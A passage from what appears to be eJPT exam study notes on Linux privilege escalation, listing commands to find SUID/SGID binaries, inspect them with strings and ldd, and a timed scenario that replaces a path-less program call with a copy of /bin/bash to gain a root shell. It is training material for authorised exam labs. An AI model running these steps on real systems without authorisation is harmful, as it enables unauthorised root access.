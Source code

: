 #### **Level 2 - Very Likely (80% Chance):**
```bash
# Find SGID binaries
find / -type f -perm -2000 2>/dev/null
# Expected: List of SGID binaries

# Combined SUID/SGID search
find / -type f \( -perm -4000 -o -perm -2000 \) 2>/dev/null
# Expected: Combined list of special permission binaries

# Copy and replace binary
cp /bin/bash /path/to/replacement
# Expected: Successful copy operation

# Execute vulnerable program
./vulnerable_program
# Expected: Elevated shell or privilege escalation
```

#### **Level 3 - Possible (60% Chance):**
```bash
# Advanced find with user specification
find / -type f -perm -4000 -user root 2>/dev/null
# Expected: SUID binaries owned specifically by root

# Library dependency check
ldd binary_path
# Expected: List of required libraries

# Advanced permission checking
find /home -type f -perm -4000 2>/dev/null
# Expected: SUID binaries in user directories (common in CTFs)
```

### **🎯 Common eJPT Exam Scenarios:**

#### **Scenario 1: Basic SUID Discovery in User Directory**
**Given:** SSH access to Linux system as regular user
**Your Job:** Find and exploit SUID binary to gain root access
**Time Limit:** 10-12 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Check current directory first (2 minutes)
ls -la
# Look for files with 's' in permissions

# Step 2: If nothing found, search system-wide (3 minutes)
find / -type f -perm -4000 2>/dev/null
# Focus on non-standard locations like /home, /tmp, /opt

# Step 3: Analyze interesting binaries (2 minutes)
strings binary_name
file binary_name
# Look for program calls without full paths

# Step 4: Exploit vulnerability (3 minutes)
cp /bin/bash replacement_name
./vulnerable_program
# Execute attack based on discovered vulnerability
```
